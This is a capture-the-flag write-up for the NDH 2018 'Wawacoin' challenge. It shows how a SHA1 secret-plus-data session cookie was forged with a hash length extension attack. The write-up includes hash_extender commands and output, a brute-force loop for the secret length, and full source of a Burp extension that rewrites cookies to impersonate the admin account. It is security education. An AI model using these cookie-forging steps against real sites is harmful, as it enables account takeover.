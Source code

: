 ```yaml
---
title: Quals NDH 2018 - Wawacoin
authors: cnotin
layout: writeup
ctf_url: https://nuitduhack.com/
---
```

Solves: 23 / Points: 400 / Category: Crypto/web
## Challenge description
> Sell your house, buy WawaCoin cryptocurrency cyber-blockchain, ???, profit.

We have a website about a new cryptocurrency named *Wawacoin*. The registration is closed but a demo interface is offered.
It connects us automatically as the *demo* user, then we have to enter our credit card information. However the website refuses it, stating that we do not have enough money.

## Challenge resolution
### Information leak
First, we find that the login form discloses that the *admin* account is valid, since it returns different error messages ("Bad username" / "Bad password").

### Crypto cookie
This challenge is all about crypto(graphy|currency) since when logging as the *demo* user we are assigned a `session` cookie with the following content:

```
session=757365723d64656d6f|9183ff6055a46981f2f71cd36430ed3d9cbf6861
```

The `session` cookie has two parts:
* Hex-encoded content, whose value is `user=demo`
* SHA1 signature, assumed based on its length
We also notice that any modification of either part triggers either a 500 error, or a redirection to the login page.

Then, we try to find common crypto flaws such as padding oracles. We can try a [hash length extension attack](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) too and observe the resulting behavior.

This attack happens when a flawed Message Authentication Code algorithm is based on the concatenation of `secret+payload`: by having the hash of this string, we can append arbitrary data to the payload and compute a valid hash without knowing the secret. A tool can be used to simply *extend* the hash based on the current known value.

### Hash length extension attack
We use the [*hash_extender*](https://github.com/iagox86/hash_extender) tool that supports SHA1.

We already have the format `--format sha1`, the original signature `--signature`, the original data `--data user=demo`, and we want to start by appending just one char `--append A`.
We still miss the length of the secret, so let's bruteforce it!
Here is the output for two different `--secret` lengths:
```shell_session
$ ./hash_extender --data user=demo --append A --signature 9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format sha1 --secret 1
Type: sha1
Secret length: 1
New signature: 41b8fd13c9ad0b2f18fc76e0f17dd01768ca8b63
New string: 757365723d64656d6f80000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000005041

$ ./hash_extender --data user=demo --append A --signature 9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format sha1 --secret 2
Type: sha1
Secret length: 2
New signature: 41b8fd13c9ad0b2f18fc76e0f17dd01768ca8b63
New string: 757365723d64656d6f800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000005841
```

The signature is identical, only the new string is slightly different.
Therefore, to bruteforce the secret, we have a fixed signature and generate the resulting values for a length of 0 to 30:

```shell
for i in $(seq 0 30); do ./hash_extender --data user=demo --append A --signature 9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format sha1 --secret $i | grep "New string" | cut -d' ' -f3; done
```

We use *Burp Intruder* to try all the generated new strings, with the fixed signature. The payload for the length 16 gives an interesting result:
![Burp Intruder](/assets/wawacoin-intruder.png){: .image }

Note that the username is displayed in the HTML page on the logout button: it is very helpful to see how our payload is decrypted.
We confirm that we can successfully append characters to the encrypted `session` cookie which is a very nice power to have!

### Creating a custom *Burp* extension
We still need to find a vulnerability: something interesting to trigger with this string that the website is surely taking for trusted :smirk:

Generating a payload to probe for a vulnerability, testing it on the website, and retrying again and again is time-consuming. In this case, we like to create a *Burp* extension. You can find a very good and simple [example by Nicolas Grégoire / Agarri](http://www.agarri.fr/kom/archives/2013/10/22/exploiting_wpad_with_burp_suite_and_the_http_injector_extension/index.html) in Python [HTTPInjector.py](http://www.agarri.fr/docs/HTTPInjector.py).

In *Burp*, just go to Extender -> APIs and click on *Save interface files*. Extract the files in a `burp` folder and put your `.py` extension next to this folder.

The full code of the extension is available at the end of this writeup and on our [GitHub repository](https://github.com/Tipi-Hack/ctf-tools/blob/master/web/burp_extension-hash_extender.py).
It captures every outgoing request, from any tool (Proxy, Repeater, Scanner...), gets the clear-text content of the `session` cookie and encrypts it using *hash_extender*. Just keep in mind that your payload is appended to the original payload.

It works wonders and is very efficent, isn't it? :ok_hand:
![Burp extension](/assets/wawacoin-burp-extension.png){: .image }

### Finding a vulnerability and the flag
Thanks to our extension, we quickly try several things and come to the conclusion that we can try to impersonate the admin.

If the original payload is: `user=demo`, what would happen if we append `&user=admin`?
The anwser is that the second `user` overwrites the first, we impersonate *admin* and get the flag:
![Got admin](/assets/wawacoin-got-admin.png){: .image }

![Got flag](/assets/wawacoin-flag.png){: .image }

Flag: `NDH{c7774051db4b880da67598770c955ff99363e76d}`

## Appendix: Burp extension
```python
# encoding: utf8
# Burp extension for the 'Wawacoin' NDH quals challenge
# By Clément Notin @cnotin
# Based on HTTPInjector by @Agarri_FR // http://www.agarri.fr/kom/archives/2013/10/22/exploiting_wpad_with_burp_suite_and_the_http_injector_extension/index.html

from burp import IBurpExtender
from burp import IHttpListener
import subprocess

class BurpExtender(IBurpExtender, IHttpListener):
    def registerExtenderCallbacks(self, callbacks):
        self._helpers = callbacks.getHelpers()

        callbacks.setExtensionName("NDH quals")

        callbacks.registerHttpListener(self)

    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        # only process requests
        if not messageIsRequest:
            return

        req = messageInfo.getRequest()
        req = self._helpers.bytesToString(req)

        if not "session=" in req:
            return
        if "GET /static" in req:
            return

        session = req.split("session=")[1].split("\r\n")[0]
        print "session before=" + session

        output = subprocess.check_output(["/root/tools/hash_extender/hash_extender",
                                          "--data", "user=demo",
                                          "--signature", "9183ff6055a46981f2f71cd36430ed3d9cbf6861",
                                          "--format", "sha1",
                                          "--secret", "16",
                                          "--append", session
                                          ])
        sig = output.split("New signature: ")[1].split("\n")[0]
        data = output.split("New string: ")[1].split("\n")[0]

        session_new = "%s|%s" % (data, sig)
        print "session after ="+session_new

        req = req.replace(session, session_new)

        req = self._helpers.stringToBytes(req)

        messageInfo.setComment("payload %s" % session)
        messageInfo.setHighlight("yellow")

        messageInfo.setRequest(req)
```
